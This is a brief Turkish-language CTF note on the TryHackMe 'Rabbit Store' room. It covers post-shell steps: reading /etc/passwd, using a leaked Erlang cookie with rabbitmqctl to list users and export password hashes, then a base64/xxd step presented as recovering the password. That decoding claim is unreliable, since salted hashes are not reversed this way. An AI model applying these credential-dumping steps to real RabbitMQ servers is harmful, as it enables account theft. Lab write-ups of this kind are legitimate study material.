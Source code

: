 
https://0xb0b.gitbook.io/writeups/tryhackme/2025/rabbit-store

shell aldıkdan sonra 
```bash
cat /etc/passwd 
```
eğer cıktısın da:

![Resim](https://0xb0b.gitbook.io/~gitbook/image?url=https%3A%2F%2F2148487935-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FoqaFccsCrwKo1CHmLRKW%252Fuploads%252FxG9xN[...])

bu resimdeki gibi ise 

ve elimize cookie geçerse çözdüğümüz ctfin hostuna forge eklenir

```bash
echo "ip forge" >> /etc/hosts
```

statusa bakılır ve 
```bash
sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge status
```
userler listelenir

```bash
 sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge list_users
```

daha sonra userler ve hasheri export edilir json dosyasına yazdıırlır
``` bash
sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge export_definitions users.json
```
daha sonra bu cıkan sonucu tek komutla (algoritmasını çözme) decode etme çıkan sonuç kimin hashini aldıysak şifresidir


algoritma: 
- hash base64 ile decode edilir
- cıkan sonucu hex ile decode edilir boşluklar sinir ve ilk 8 karakter silinir daha sonra kalan ise Şifredir. 

```bash
 echo -n '49e6[REDACTED]BzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1d16[REDACTED]98073585
```

